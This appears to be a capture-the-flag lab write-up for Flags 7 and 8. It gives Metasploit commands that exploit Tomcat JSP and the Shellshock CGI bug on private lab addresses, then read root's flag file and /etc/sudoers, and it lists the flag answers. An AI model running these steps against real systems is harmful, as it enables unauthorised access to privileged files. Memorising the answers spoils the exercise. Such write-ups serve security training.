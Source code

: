 ### Flag 7: 
![image](https://github.com/user-attachments/assets/6382fda5-9f6a-4319-bb29-87a712327d06)
![image](https://github.com/user-attachments/assets/8e054655-615f-4f23-ad22-62baa9d81e43)
![image](https://github.com/user-attachments/assets/e213ccf5-5d3d-40db-9f65-79c22c72f0fe)
</br>
```shell
msfconsole

search tomcat jsp

use 5



set RHOSTS 192.168.13.10

run

cd /root

ls -alt

cat .flag7.txt

8ks6sbhss
```

### Flag 8: 

![image](https://github.com/user-attachments/assets/a385776d-e845-4bb1-8250-b498407bb6a6)
![image](https://github.com/user-attachments/assets/13faad45-49b3-4c05-b8b9-dcd4a10c24d5)
</br>
```shell
msfconsole

search shock

use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOST 192.168.13.11

set TARGETURI /cgi-bin/shockme.cgi

cd /etc

ls -l

cat sudoers

9dnx5shdf5
```
